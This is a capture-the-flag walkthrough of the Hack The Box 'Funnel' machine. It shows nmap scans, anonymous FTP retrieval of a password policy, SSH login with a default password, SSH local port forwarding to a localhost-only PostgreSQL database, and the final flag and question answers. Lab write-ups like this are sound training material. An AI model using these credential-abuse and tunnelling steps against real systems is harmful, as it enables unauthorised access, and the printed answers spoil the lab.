

# Funnel

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. How many TCP ports are open?

```sh
$ nmap -A -T4 10.129.228.195
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 20:11 CET
Nmap scan report for 10.129.228.195
Host is up (0.096s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds
```

> 2

#### 2. What is the name of the directory that is available on the FTP server?

> mail_backup

#### 3. What is the default account password that every new member on the "Funnel" team should change as soon as possible?

```sh
$ ftp 10.129.228.195
Connected to 10.129.228.195.
220 (vsFTPd 3.0.3)
Name (10.129.228.195): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> cd mail_backup
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.
ftp> mget *
mget password_policy.pdf? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
WARNING! 485 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
58899 bytes received in 0,128 seconds (450 kbytes/s)
mget welcome_28112022? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
WARNING! 11 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
713 bytes received in 0,000632 seconds (1,08 Mbytes/s)
```



> funnel123#!#

#### 4. Which user has not changed their default password yet?

```sh
$ cat welcome_28112022 
Frome: root@funnel.htb
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb
Subject:Welcome to the team!

Hello everyone,
We would like to welcome you to our team. 
We think you’ll be a great asset to the "Funnel" team and want to make sure you get settled in as smoothly as possible.
We have set up your accounts that you will need to access our internal infrastracture. Please, read through the attached password policy with extreme care.
All the steps mentioned there should be completed as soon as possible. If you have any questions or concerns feel free to reach directly to your manager. 
We hope that you will have an amazing time with us,
The funnel team.
```

```sh
$ ssh christine@10.129.228.195
The authenticity of host '10.129.228.195 (10.129.228.195)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:141: 10.129.241.178
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.195' (ED25519) to the list of known hosts.
christine@10.129.228.195's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```

> christine

#### 5. Which service is running on TCP port 5432 and listens only on localhost?

```sh
$ nmap -p5432 -sV 10.129.228.195
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 20:17 CET
Nmap scan report for 10.129.228.195
Host is up (0.034s latency).

PORT     STATE  SERVICE    VERSION
5432/tcp closed postgresql

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

> postgresql

#### 6. Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?

> local port forwarding

#### 7. What is the name of the database that holds the flag?

*(Port forwarding from local port `1234` to server port `5432`)*

```sh
$ ssh -L 1234:localhost:5432 christine@10.129.228.195
christine@funnel:~$
```

*(Check our local port forwarding in other window)*

```sh
$ sudo lsof -nP -iTCP -sTCP:LISTEN
...
ssh       97861 vladimir    5u  IPv6 0xe03a0329f4a3fc11      0t0  TCP [::1]:1234 (LISTEN)
ssh       97861 vladimir    6u  IPv4 0xe03a0329e6d79f11      0t0  TCP 127.0.0.1:1234 (LISTEN)
```

*(We can now interact with the `PostgreSQL` service running locally on the target machine)*

```sh
$ psql -U christine -h localhost -p 1234
Password for user christine: 
psql (14.11 (Homebrew), server 15.1 (Debian 15.1-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
Type "help" for help.

christine=$ \list
                                  List of databases
   Name    |   Owner   | Encoding |  Collate   |   Ctype    |    Access privileges    
-----------+-----------+----------+------------+------------+-------------------------
 christine | christine | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres  | christine | UTF8     | en_US.utf8 | en_US.utf8 | 
 secrets   | christine | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0 | christine | UTF8     | en_US.utf8 | en_US.utf8 | =c/christine           +
           |           |          |            |            | christine=CTc/christine
 template1 | christine | UTF8     | en_US.utf8 | en_US.utf8 | =c/christine           +
           |           |          |            |            | christine=CTc/christine
(5 rows)
christine=$ \connect secrets
You are now connected to database "secrets" as user "christine".
secrets=$ \dt
         List of relations
 Schema | Name | Type  |   Owner   
--------+------+-------+-----------
 public | flag | table | christine
(1 row)
secrets=$ select * from flag;
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1
(1 row)
```

> secrets

#### 8. Could you use a dynamic tunnel instead of local port forwarding? Yes or No.

> yes


## Final Flag

> cf277664b1771217d7006acdea006db1

*Created by [bu19akov](https://github.com/bu19akov)*